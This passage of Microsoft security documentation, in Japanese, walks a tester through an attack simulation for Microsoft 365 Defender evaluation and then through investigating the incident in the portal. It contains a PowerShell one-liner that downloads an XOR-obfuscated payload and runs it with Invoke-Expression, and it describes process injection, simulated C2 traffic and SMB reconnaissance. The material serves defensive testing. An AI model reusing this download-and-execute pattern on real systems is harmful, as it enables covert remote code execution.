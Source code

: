 攻撃シナリオ シミュレーションを実行するには:

1. テスト ユーザー アカウントを使用してテスト デバイスにログインします。

2. テスト デバイスでWindows PowerShell ウィンドウを開きます。

3. 次のシミュレーション スクリプトをコピーします。

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > このドキュメントを Web ブラウザーで開くと、特定の文字を失ったり、改行を追加したりすることなく、フル テキストをコピーする際に問題が発生する可能性があります。 このドキュメントをダウンロードし、Adobe Reader で開きます。

4. プロンプトで、コピーしたスクリプトを貼り付けて実行します。

> [!NOTE]
> リモート デスクトップ プロトコル (RDP) を使用して PowerShell を実行している場合は、 **CTRL-V** ホットキーまたは右クリック貼り付けメソッドが機能しない可能性があるため、RDP クライアントで [クリップボードテキストの入力] コマンドを使用します。 最近のバージョンの PowerShell では、そのメソッドが受け入れられません。最初にメモリ内のメモ帳にコピーし、仮想マシンでコピーしてから PowerShell に貼り付ける必要がある場合があります。

数秒後、 <i>notepad.exe</i> が開きます。 シミュレートされた攻撃コードがnotepad.exeに挿入されます。 自動的に生成されたメモ帳 インスタンスを開いたままにして、完全なシナリオを体験します。

シミュレートされた攻撃コードは、外部 IP アドレスとの通信 (C2 サーバーのシミュレート) を試み、SMB を介してドメイン コントローラーに対する偵察を試みます。

このスクリプトが完了すると、PowerShell コンソールにメッセージが表示されます。

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

自動インシデントと応答機能の動作を確認するには、notepad.exe プロセスを開いたままにします。 自動インシデントと応答がメモ帳 プロセスを停止することがわかります。

## <a name="investigate-an-incident"></a>インシデントの調査

> [!NOTE]
> このシミュレーションについて説明する前に、次のビデオを参照して、インシデント管理が調査プロセスの一環として関連するアラートをまとめ、ポータルで見つける方法、およびセキュリティ操作にどのように役立つかを確認します。

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

SOC アナリストの観点に切り替えると、Microsoft 365 Security Center ポータルで攻撃の調査を開始できるようになりました。

1. 任意のデバイスから [Microsoft 365 Security Center ポータル](https://security.microsoft.com/incidents)インシデント キューを開きます。

2. メニューから **インシデント** に移動します。

    ![Microsoft 365 Security Center の左側のメニューに示されているインシデントのスクリーンショット](../../media/mtp/fig1.png)
